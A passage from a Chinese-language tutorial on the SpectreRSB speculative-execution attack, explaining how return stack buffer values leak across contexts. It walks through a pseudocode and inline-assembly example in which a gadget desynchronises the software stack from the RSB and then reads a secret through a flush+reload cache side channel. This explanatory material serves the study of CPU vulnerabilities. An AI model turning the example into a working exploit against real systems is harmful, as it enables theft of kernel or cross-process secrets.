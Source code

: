 - 攻击者可以利用这种情况，恶意推送一个返回地址（例如，指向内核代码的地址），而程序的正常执行路径将以为它是在运行合法的返回。这样，当程序后来执行返回操作时，它可能会转移到攻击者控制的内存地址，导致潜在的安全问题，例如信息泄露或权限提升。

#### **S4：跨执行上下文使用 RSB**

在上下文切换时，执行线程留下的 RSB 值将被下一个线程重用。一旦我们切换到新线程，如果该线程执行 return，那么它将错误地推测到原始线程提供的地址。切换到未实施 RSB 重新填充的 操作系统 或 SGX 上下文也是如此。



### 8.3.spectreRSB攻击示例

```c
1. Function gadget()
2. {
3. 		push %rbp
4. 		mov %rsp, %rbp
5. 		pop %rdi 		//remove frame/return address
6. 		pop %rdi 		//from stack stopping at
7. 		pop %rdi 		//next return address
8. 		nop
9. 		pop %rbp
10. 	clflush (%rsp) //flush the return address
11. 	cpuid
12. 	retq 		//triggers speculative return to 17
13. } 				//committed return goes to 23
14. Function speculative(char *secret_ptr)
15. {
16. 	gadget(); 		//modify the Software stack
17. 	secret = *secret_ptr; //Speculative return here
18. 	temp &= Array[secret * 256]; //Access Array
19. }
20. Function main()
21. {
22. 	speculative(secret_address);
23. 	for (i = 1 to 256) //Actual return to here
24. 	{
25. 		t1 = rdtscp();
26. 		junk = Array[i * 256]; //check cache hit
27. 		t2 = rdtscp();
28. 	}
29. }
```

攻击从第 22 行开始，调用 speculative，其参数是要读取的敏感数据的内存地址。speculative 调用 gadget，它有两个目的：

（1） 返回地址被推送到 RSB（返回地址是第 17 行，在那里我们有要推测执行的有效负载gadget）;

（2） 我们跳转到 （inline assembly） 函数gadget，它将操纵软件堆栈以创建 RSB 和软件堆栈之间的不匹配。

在gadget()中，我们通过操控软件堆栈的堆栈指针和返回地址来使函数返回两个调用层次(也造成了软件堆栈与CPU RAS的不一致性)，也就是到达调用speculative（）函数的main函数。

但是，RSB 保存从 gadget 到 speculative 的返回值。因此，在第 12 行中，当返回执行时，CPU 会在第 17 行预测执行。堆栈顶部的刷新（第 10 行）确保返回地址的真实值将从内存中获取，而不是从缓存中获取，从而创建一个大的预测执行窗口。

第 17 行的推测执行读取密钥，然后通过访问 Array 中的数据相关索引（第 18 行）通过 flush reload cache 侧信道将其传达出去。
